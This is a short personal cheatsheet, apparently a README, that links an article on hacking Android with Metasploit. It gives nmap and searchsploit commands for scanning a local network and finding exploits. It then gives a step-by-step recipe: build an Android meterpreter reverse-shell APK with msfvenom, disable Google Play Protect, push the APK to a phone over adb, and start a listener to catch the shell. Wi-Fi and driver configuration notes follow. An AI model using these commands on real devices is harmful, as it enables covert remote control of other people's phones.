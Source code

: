 https://medium.com/nybles/exploring-android-hacking-with-metasploit-framework-2306c3511698

## Network Analysis  
nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
   
## MSF EZ Cheatsheet  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  

## Wi-Fi Cheatsheet

sudo iwlist wlan0 scan
wpa_passphrase "HP Deskjet 2060" Ocarina8080 | sudo tee AP/wifi_wpa_supplicant.conf  
sudo wpa_supplicant -B -i wlan0 -c AP/wifi_wpa_supplicant.conf  
sudo dhclient wlan0 -r  
MAC: cat /sys/class/net/wlan0/address    
  
Other:  
 - List drivers  
 ethtool -i wlan0  
  
 - List driver info  
 /sbin/modinfo rtl8187  
  
 - Enable Power Management  
 sudo modprobe -r rtl8187  
 sudo modprobe rtl8187 ps_enable=1  
  
 - Run changes on boot  
 sudo echo 'options rtl8187 ps_enable=1' >> /etc/modprobe.d/rtl8187.conf

 - General config
sudo nano /etc/network/interfaces

 - Networks Manager
systemctl status NetworkManager  
systemctl restart NetworkManager  

 - Display WiFi APs (saved, hotspots, all)
nmcli c
nmcli d wifi list  
sudo iwlist <WifiInterface> scanning  

'''  
auto lo  
iface lo inet loopback  

auto wlan0:0  
iface wlan0:0 inet static
        address 192.168.168.3
        netmask 255.255.255.0
'''  

ERROR  
nl80211: kernel reports: Match already configured  
